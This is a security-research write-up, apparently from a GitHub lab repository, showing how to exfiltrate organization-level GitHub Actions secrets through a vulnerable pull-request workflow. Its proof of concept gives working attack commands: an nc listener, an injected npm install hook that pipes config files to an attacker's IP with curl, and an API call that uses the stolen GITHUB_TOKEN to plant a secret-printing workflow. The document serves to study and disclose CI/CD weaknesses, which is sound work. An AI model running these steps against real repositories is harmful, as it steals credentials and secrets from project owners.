 # Exfiltration of organization level secrets

> WARNING: (20 April 2023) the proof of concept doesn't work now; this may be due to GitHub mitigations.

It is possible to exfiltrate [organization level secrets](https://docs.github.com/en/actions/security-guides/encrypted-secrets#creating-encrypted-secrets-for-an-organization) even if they are not referenced in the vulnerable repository. However, the access to the secrets should be granted to either all organization repositories (which is the default) or a selected set of repositories including the vulnerable repository.

One way to exfiltrate organization level secrets is to exfiltrate the `GITHUB_TOKEN` and create a new workflow which would reference and print the secrets. This workflow can be created in any branch of the repository. Finally, to actually exfiltrate the secrets one triggers the workflow.

Only organization admins can view the list of organization level secrets. However, the attacker doesn't need to view the list. They can exfiltrate all secrets accessible to the workflow, including organization level secrets, at once by leveraging the [`secrets` context](https://docs.github.com/en/actions/learn-github-actions/contexts#secrets-context) as proposed by Alex Ilgayev in the "Extracting Repository And Organizational Secrets" section of [How We Discovered Vulnerabilities in CI/CD Pipelines of Popular Open-Source Projects](https://cycode.com/blog/github-actions-vulnerabilities/).

## Example

### Environment setup

Run [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) as the victim to create the `MYSECRET` organization level secret with the value of `1234567890` and the `org-level-secrets` repository with the vulnerable workflow.

> You will need [gh](https://github.com/cli/cli) installed to execute the [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) script

### Proof of concept

Perform the following steps as the attacker.

1. Open a publicly accessible port on a remote server (e.g. `nc -vlnk 0.0.0.0 1337`).
1. Fork the `org-level-secrets` repository.
1. Add the `scripts.install` key to the `package.json` file with the `find . -type f -name config | xargs cat | curl --data @- http://{IP}:1337` value replacing the `{IP}` placeholder with the public IP address of the remote server.
1. Open a pull request from the fork to the `org-level-secrets` repository.
1. Wait until the remote server recieves the request and base64-decode the `GITHUB_TOKEN` from it.
1. Run the following command replacing `{GITHUB_TOKEN}` and `{owner}` placeholders with the obtained `GITHUB_TOKEN` and the organization name respectively to create a new workflow.
    ```bash
    curl -X PUT -H "Accept: application/vnd.github.v3+json" -H "Authorization: Bearer {GITHUB_TOKEN}" https://api.github.com/repos/{owner}/org-level-secrets/contents/.github/workflows/exfiltrate.yml -d '{"message":"hey","content":"b246CiAgcHVsbF9yZXF1ZXN0X3RhcmdldDoKam9iczoKICBleGZpbHRyYXRlOgogICAgcnVucy1vbjogdWJ1bnR1LWxhdGVzdAogICAgc3RlcHM6CiAgICAgIC0gbmFtZTogZXhmaWx0cmF0ZQogICAgICAgIHJ1bjogfAogICAgICAgICAgZWNobyAiJHt7IHNlY3JldHMuTVlTRUNSRVQgfX0iIHwgYmFzZTY0IHwgYmFzZTY0"}'
    ```
1. Open another pull request from the to the `org-level-secrets` repository to trigger the workflow.
1. The double-base64-encoded `MYSECRET` secret should appear in workflow run logs.

